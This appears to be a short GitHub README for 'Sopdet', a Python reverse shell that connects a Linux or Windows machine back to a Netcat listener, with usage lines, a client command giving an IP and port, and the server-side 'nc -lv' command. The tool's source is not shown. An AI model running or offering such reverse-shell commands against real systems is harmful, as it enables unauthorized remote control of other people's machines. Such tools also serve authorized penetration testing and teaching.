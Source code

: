 # Sopdet
A simple cross-platform reverse shell written in Python

Sopdet is a client-side Python script that when run on a Linux/Unix or Windows system will open up a shell on a remote server running Netcat as a listener on the specified port.

## Usage:
`python sopdet.py <IP address> <port>`

## Example:

### Client-side

`python sopdet.py 192.168.0.2 4444 linux`

`[*] Sobdet client connected to 192.168.0.2`

### Server-side

`nc -lv 4444`

`Connection from 192.168.0.3 65095 received!`
